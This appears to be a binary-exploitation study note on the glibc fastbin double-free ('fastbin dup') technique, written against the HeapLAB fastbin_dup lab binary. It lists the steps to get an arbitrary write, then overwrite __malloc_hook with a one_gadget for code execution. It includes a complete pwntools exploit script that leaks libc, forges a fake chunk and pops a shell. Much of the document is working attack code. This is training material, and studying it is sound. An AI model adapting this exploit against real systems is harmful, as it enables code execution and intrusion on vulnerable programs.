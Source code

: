```yaml
---
title: "Fastbin Dupe"
tags: [Binary Exploitation, Heap]
excerpt: "Fastbin Dupe"
layout: single
classes: wide
--- 
```


Tricking malloc into returning an already-allocated heap pointer by abusing the fastbin freelist. This can be used to gain an arbitrary write primitive.

## Requirements
* Allocate chunks in fastbin size, `0x20 - 0x80`
* Ability to free chunks in any order
* Ability to forge or find fake chunk

## Process
### Arbitrary Write Primitive
_Assuming `target` is the address to be overwritten_
* Allocate 2 chunks, free them in alternating order: `free(1), free(0), free(1)`. This causes the `fd` pointer of the second chunk to link back to the first in the fastbin list.
* Forge a fake chunk somehow at `target - 16`, `target - 8` must hold chunk size equal to size of previous chunks.
* Allocate chunk, with `target - 16` as the data to overwrite the `fd` pointer in the fastbin list.
* Allocate 2 more chunks to free up fastbin list. Last address in the fastbin list will point to the fake chunk.
* Allocate chunk with data to be written to `target`.

### Gaining RCE using ret2libc
_This requires libc version to be known_
* Overwrite `__malloc_hook` using write primitive with `one_gadget`
    * Fake chunk can be found using `find_fake_fast &__malloc_hook` in `pwndbg`
    * Chunk size of all previous chunks must be same as chunk size in this fake chunk
    * As chunk is not allocated with alignment, data when overwriting becomes `padding + one_gadget`
* Call `malloc()`

## Example: HeapLAB fastbin_dup
```python
from pwn import *

config = {"elf" : "./fastbin_dup"}

def malloc(size, data):
    sla('> ', '1')
    sla('size: ', str(size))
    sla('data: ', data)

def free(index):
    sla('> ', '2')
    sla('index: ', str(index))

def exploit(p):
    # Get puts leak
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    
    # Setting random username
    sla('username: ', 'JEFFJOHN')
    
    # Calculate libc addresses
    libc.address = puts - libc.symbols['puts']
    one_gadget = libc.address + 0xe1fa1
    malloc_hook = libc.symbols['__malloc_hook']
    
    # Fastbin dup
    malloc(0x68, "A"*8)
    malloc(0x68, "A"*8)

    free(1)
    free(0)
    free(1)

    # Overwrite __malloc_hook with one_gadget 
    fake_chunk = malloc_hook - 35
    malloc(0x68, p64(fake_chunk))
    malloc(0x68, "A"*8)
    malloc(0x68, "A"*8)
    malloc(0x68, "A"*19 + p64(one_gadget))

    # Pop shell
    sla('> ', '1')
    sla('size: ', '1')

    lg('Fake Chunk: ' + hex(fake_chunk))
    lg('malloc_hook: ' + hex(malloc_hook))
    lg('One_gadget: ' + hex(one_gadget))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = elf.libc

    p = process(elf.path)
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

